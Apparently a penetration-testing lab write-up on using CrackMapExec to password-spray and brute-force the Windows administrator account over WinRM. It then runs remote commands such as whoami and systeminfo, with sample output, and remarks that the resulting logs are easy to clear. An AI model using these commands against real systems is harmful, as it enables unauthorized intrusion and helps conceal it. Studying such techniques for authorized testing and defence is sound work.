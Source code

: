 ```
crackmapexec <protocol> <target(s)> -u username1 -p password1 password2
crackmapexec <protocol> <target(s)> -u username1 username2 -p password1
crackmapexec <protocol> <target(s)> -u ~/file_containing_usernames -p ~/file_containing_passwords
crackmapexec <protocol> <target(s)> -u ~/file_containing_usernames -H ~/file_containing_ntlm_hashes
```

[WinRM Protocol Password spraying](https://wiki.porchetta.industries/winrm-protocol/password-spraying)

```
#~ cme winrm 192.168.1.0/24 -u userfile -p passwordfile --no-bruteforce
```

Why are we only targeting the administrator account, let's take a few things into consideration:

Firstly, On Windows, administrator account is definitely there, because it is the first account that's created when you installed Windows.

Secondly, The administrator account is typically the user account that is going to be used to access by system administrator for obvious reason.

Thirdly, If we gain access to the administrator account that means we have elevated privileges, we not have to go through the process of elevating our privileges manually.

```
crackmapexec winrm 10.2.18.45 -u administrator -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt

WINRM   10.2.18.45  5985    NONE    [*] http://10.2.18.45:5985/wsman
```

It actually connects to WINRM, don't worry it tells you that using the wsman or the wsman service, because winRM is implementation of wsman or Windows Management or Windows Management API.

We can utilize crackmapexec to execute arbitary Windows command on the target.

[Command execution](https://wiki.porchetta.industries/winrm-protocol/command-execution)

Execute Command using WinRM

```
#~ cme winrm 192.168.255.131 -u user -p 'password' -X whoami
WINRM       192.168.255.131 5985   ROGER            [*] http://192.168.255.131:5985/wsman
WINRM       192.168.255.131 5985   ROGER            [+] GOLD\user:password (Pwn3d!)
WINRM       192.168.255.131 5985   ROGER            [+] Executed command
WINRM       192.168.255.131 5985   ROGER            gold\user
```

```
crackmapexec winrm 10.2.18.45 -u administrator -p tinkerbell -x "whoami"
```

Enumerate all the information to this particular system:

```
crackmapexec winrm 10.2.18.45 -u administrator -p tinkberbell -x "systeminfo"
```

We have not utilized any exploit code or the exploited vulnerability within WinRM, we simply perform the brute-force attack and we now utilizing the WinRM protocol to legitimately execute commands on the target system. And of course executing commands on the target system will have its own number of logs which you can clear very easily, but this is relatively safe because if WinRM is enabled on the target if firewall rules or exceptions will be added so you can communicate with the system via winRM without any restriction.
